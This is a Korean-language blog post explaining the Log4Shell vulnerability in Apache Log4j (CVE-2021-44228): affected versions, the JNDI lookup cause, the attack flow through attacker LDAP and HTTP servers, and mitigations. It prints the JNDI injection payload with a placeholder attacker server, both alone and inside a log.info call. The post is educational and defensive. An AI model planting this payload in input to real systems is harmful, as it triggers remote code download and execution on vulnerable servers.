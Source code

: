 ```yaml
---
title: "CVE-2021-44228 Log4shell 취약점에 대하여 알아보자."
excerpt: "Log4shell 취약점 무엇인지 정리해 보았다."
tags:
    - java
    - log4j
    - log4shell
    - CVE-2021-44228
    - CVE
last_modified_at: 2023-08-17T09:13:00-05:00
---
```

## CVE-2021-44228 Log4Shell 취약점

### 취약점 정보
- Apache Log4j 의 JNDI(Java Naming and Directory Interface) Injection 취약점이다.
- 영향을 받는 Apache Log4j 버전의 메세지에 신뢰할 수 없는 데이터(악성 페이로드)를 포함함으로써 공격자는 JNDI 조회를 악성 서버에 연결할 수 있다.
- RCE ( Remote Code Excution ) 즉 원격으로 악성 코드를 서버에서 실행시킬 수 있다.
- 원격으로 악성 코드를 서버로 다운로드 및 실행 시키는 공격이다.

### 취약점 버전
- Log4j2 <= 2.14.1
- jdk version < 6u211, 7u201, 8u191, 11.0.1

### 보안 취약점 원인
#### Log4j의 Message Lookup 기능과 Lookups의 JNDI 기능
- Message Lookup 패턴 기능과 Lookup의 JNDI기능 때문에 발생하는 취약점이다.
- 원래 서버 내부에서 운영중인 LDAP 서버에 접속하여 코드를 서버로 다운로드 및 실행시키는 기능이다.
- 공격자는 이를 악용하여 공격자의 LDAP 서버에 접속하여 악성 코드를 서버로 다운로드 및 실행 시킨다.
- 취약한 코드 예시. Message Lookup 기능과 Lookup의 JNDI 기능을 이용한 공격이다.
- 공격자의 payload 가 log 메세지에 삽입되어 발생되는 공격이다.

``` java
log.info("test "+"${jndi:ldap://공격자 서버}");
```


### JNDI 란?
- java 로 작성된 에플리케이션을 DNS, LDAP, RMI, NDS 등과 같은 Naming / Directory 서비스에 연결하기  위한 API 이다.


### LDAP 란?
- Lightweight Directory Access Protocol 경량 디렉터리 엑세스 프로토콜.
- 디렉터리 서비스를 조회하고 수정하는 응용 프로토콜(7계층)이다.



### Log4Shell공격 Payload

```
${jndi:ldap://공격자 서버}
```

### Log4Shell 공격 동작 방식
- 공격자 
- 공격자 LDAP 서버
- 공격자 HTTP 서버 : 악성 class 또는 jar 파일을 가지고 있는 곳이다.
- 취약한 웹 서버 : 취약한 버전의 log4j 버전과 jdk 버전을 이용하고 있어야 한다.

<img class="mermaid" src="https://mermaid.ink/svg/eyJjb2RlIjoic2VxdWVuY2VEaWFncmFtXG7qs7XqsqnsnpAgLT4-IOybuSDshJzrsoQgOiDqs7XqsqkgUGF5bG9hZCDsoITri6xcbuybuSDshJzrsoQgLT4-IOybuSDshJzrsoQgOiBwYXlsb2Fk66W8IOuhnOq5heydhCDsnITtlbQgbG9nNGrroZwg7J2R64u1IOuNsOydtO2EsCDsoITri6xcbuybuSDshJzrsoQgLT4-IOqzteqyqeyekCBMREFQIOyEnOuyhCA6IOyVheyEsSDrpqzrsoTsiqQg7ImYIO2MjOydvChjbGFzcyBvciBqYXIpIOychOy5mCDsoJXrs7Qg7JqU7LKtXG7qs7XqsqnsnpAgTERBUCDshJzrsoQgLT4-IOybuSDshJzrsoQgOiDslYXshLEg7YyM7J28IOydtOumhCDrsI8g7L2U65OcIOychOy5mCDsnZHri7VcbuybuSDshJzrsoQgLT4-IOqzteqyqeyekCBIVFRQIOyEnOuyhCA6IOyVheyEsSDtjIzsnbwg64uk7Jq066Gc65OcIOyalOyyrVxu6rO16rKp7J6QIEhUVFAg7ISc67KEIC0-PiDsm7kg7ISc67KEIDog7JWF7ISxIO2MjOydvCDsnZHri7VcbuybuSDshJzrsoQgLT4-IOybuSDshJzrsoQgOiDslYXshLEg7YyM7J28IOyLpO2WiVxu7Ju5IOyEnOuyhCAtPj4g6rO16rKp7J6QIDog66as67KE7IqkIOyJmOydhCDthrXtlZwg7Jew6rKwIiwibWVybWFpZCI6bnVsbH0">


![log4j_attack](https://user-images.githubusercontent.com/31990118/261207125-030bd82e-6262-4d7b-b52f-7e98a3fc6926.jpg)
[출처 : govcert](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/assets/log4j_attack.png)



### 대응 방안
- Log4j 버전 2.10 ~ 2.14.1 을 사용할 때 대응방안.  Lookup 기능을 비활성화하기.

```
java
-Dlog4j2.formatMsgNoLookups=true
...
```

![Pasted image 20230803170827](https://user-images.githubusercontent.com/31990118/261207377-549f5838-50e7-4c54-b352-20f3d45d6a54.png)

- 취약점이 해결된 Log4j 2.17 이상 버전 이용하기. 왜냐하면 2.16.0 버전에서 message lookup patterns 이 제거되었고, JNDI 기능이 디펄트로 비활성화 되어있기 때문이다.

- jdk 버전 6u211, 7u201, 8u191, 11.0.1 이상으로 이용하기.  취약한 버전의 Log4j 버전을 사용하더라도 ldap.object.trustURLCodebase 의 디펄트 값이 false이기 때문에 외부에서 악성 코드를 다운로드 하지 않는다. 즉 웹 서버의 log4j는 공격자 서버에서 jar 또는 class 파일을 다운로드 받고 실행시키지 않는다.

- Remote codebase 를 disable 하기. 신뢰하지 못하는 외부 서버로 부터 jar 코드를 무단으로 다운 및 실행하지 않게한는 설정이다.

```
LDAP 기반 설정
com.sun.jndi.ldap.object.trustURLCodebase=false
6u211, 7u201, 8u191, 11.0.1 버전 이상부터 false 가 default이다.

RMI 기반 설정
com.sun.jndi.cosnaming.object.trustURLCodebase=false
8u121 부터 false가 default 이다.
```


### 참고 사이트
- [Log4Shell Update: Second log4j Vulnerability Published](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)
- [Log4j 취약점 (CVE-2021-44228) 을 막는 5가지 방법 (o3g.org)](https://blog.o3g.org/server/log4j-%EC%B7%A8%EC%95%BD%EC%A0%90-cve-2021-44228-%EC%9D%84-%EB%A7%89%EB%8A%94-5%EA%B0%80%EC%A7%80-%EB%B0%A9%EB%B2%95/)
- [Apache Log4J(Log4Shell) 취약점이란? (trendmicro.com)](https://www.trendmicro.com/ko_kr/what-is/apache-log4j-vulnerability.html)
- [한국정보보호교육센터 (kisec.com)](https://www.kisec.com/rsrh_rpt_det.do?id=783)
- [LDAP - 위키백과, 우리 모두의 백과사전 (wikipedia.org)](https://ko.wikipedia.org/wiki/LDAP)
